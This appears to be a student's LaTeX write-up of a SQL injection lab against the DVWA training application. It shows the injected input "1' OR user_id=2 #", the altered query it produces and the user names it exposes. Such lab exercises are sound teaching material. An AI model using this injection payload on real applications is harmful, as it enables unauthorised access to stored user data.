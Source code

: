 \documentclass[12pt]{article}
\begin{document}
Given following query:

\begin{lstlisting}[language=SQL]
SELECT last_name FROM users WHERE first_name = 'Pablo';
\end{lstlisting}

\textbf{Q1. What is result of above SQL query?}

\textbf{Answer:}

query looks for last name of user with first name 'Pablo'. From given table, result is:

\begin{itemize}
    \item \texttt{Picasso}
\end{itemize}

\subsection{Task 3: Hands-on with SQL Injection}

When we enter a 'User ID' of \texttt{1} in DVWA application, it runs this SQL query:

\begin{lstlisting}[language=SQL]
SELECT first_name, last_name FROM users WHERE user_id = '1';
\end{lstlisting}

To exploit SQL injection vulnerability, we can enter:

\begin{lstlisting}
1' OR user_id=2 #
\end{lstlisting}

This changes query to:

\begin{lstlisting}[language=SQL]
SELECT first_name, last_name FROM users WHERE user_id = '1' OR user_id='2' # ';
\end{lstlisting}

\texttt{\#} symbol is used to comment out rest of query.

\textbf{Q2. What results do you get from this query?}

\textbf{Answer:}

query returns first and last names of users with \texttt{user\_id} 1 and 2.

\begin{itemize}
    \item User ID 1: admin admin
    \item User ID 2: Gordon Brown
\end{itemize}
\end{document}
